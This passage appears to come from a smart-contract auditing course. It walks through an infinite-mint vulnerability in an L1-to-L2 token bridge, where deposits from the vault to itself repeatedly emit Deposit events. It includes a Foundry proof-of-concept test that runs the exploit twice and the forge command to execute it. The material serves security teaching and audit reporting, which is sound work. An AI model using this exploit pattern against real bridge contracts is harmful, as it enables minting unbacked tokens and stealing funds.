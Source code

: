 An important thing to note is that because the tokens are never really leaving the vault (they're transferring from the vault to the vault), this means the attack could be made multiple times to repeatedly emit this event, effectively minting infinite tokens on the L2.

Let's show it in our test.

```js
function testCanTransferFromVaultToVault() public {
    address attacker = makeAddr("attacker");

    uint256 vaultBalance = 500 ether;
    deal(address(token), address(vault), vaultBalance);

    // Trigger the deposit event, self transfer tokens to the vault
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), attacker, vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);

    // Test being able to repeat the exploit
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), attacker, vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
}
```

Our test shouldn't be too unfamiliar from most of the last one we wrote. We're declaring an attacker and using the [**Foundry Cheatcode `Deal`**](https://book.getfoundry.sh/cheatcodes/deal?highlight=deal#deal) to give `500 ether` worth of our `L1Token` to the `Vault`.

From here, we set our expectEmits to show that the deposit event emits the `vault` as a from address, with the `attacker` as the recipient on L2. Because no tokens are removed from the `vault`, we can even exploit this multiple times.

Let's run the test.

```bash
forge test --mt testCanTransferFromVaultToVault
```

<img src="/static/security-section-7/22-infinite-mint/infinite-mint1.png" width="100%" height="auto">

Yikes.

We're going to skip doing the write up for this together, but if you're serious about putting these skills to work, I encourage you to write up the finding report for this `high severity` bug.
